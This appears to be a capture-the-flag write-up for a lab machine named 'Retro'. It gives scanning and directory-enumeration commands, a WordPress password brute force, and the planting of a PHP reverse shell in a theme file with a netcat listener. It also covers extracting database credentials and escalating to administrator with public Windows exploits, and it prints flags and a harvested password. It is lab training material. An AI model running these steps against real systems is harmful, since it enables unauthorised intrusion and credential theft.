 # Retro

> New high score!

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 10.10.38.58 -Pn`
	- `sudo nmap -T4 -A -p 80,3389 10.10.38.58 -Pn`
2. enumerate port 80:
	- visit website "http://10.10.38.58/" (default IIS homepage)
	- run gobuster: `gobuster dir -u http://10.10.38.58/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,bak,conf,txt,js`
		- found "retro"
		- hidden directory = **retro**
	- check for robots.txt -- not found
	- re-run gobuster: `gobuster dir -u http://10.10.38.58/retro -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,bak,conf,txt,js`
		- found wordpress directories 
	- run wpscan: `wpscan --url http://10.10.38.58/retro`
	- try to brute force login with found username "wade": `wpscan --url http://10.10.38.58/retro -U wade -P /usr/share/wordlists/rockyou.txt`
		- ...
	- reading blog posts on site revealled likely password
		- tried "wade:parzival" -- success
	- upload reverse shell:
		- go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
		- setup a netcat listener: `nc -lvnp`
		- then call the template: `http://10.10.38.58/retro/wp-content/themes/90s-retro/404.php`
3. post-exploitation:
	- found MySQL password in "wp-config.php" file:
		- "worpressuser567:YSPgW[%C.mQE]"
	- login with RDP in remmina using wade credentials -- success
	- found user.txt flag
		- user flag = **3b99fbdc6d430bfb51c72c651a261927**
4. privilege escalation:
	- found the user was trying to execute a "hhupd.exe" (in Recylce Bin)
	- googling this tound an exploit "CVE-2019-1388"
	- download exploit to attack machine from [here](https://packetstormsecurity.com/files/14437/hhupd.exe.html) and then move to target
	- try to execute -- failed 
	- find OS and build and google for exploits
		- found CVE-2017-0213
		- download from [here](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213) to attack machine and then download to target machine via python http server 
		- execute -- worked 
		- get root flag: `type /users/administrator/desktop/root.txt.txt`
		- flag = **7958b569565d7bd88d10c6f22d1c406c**
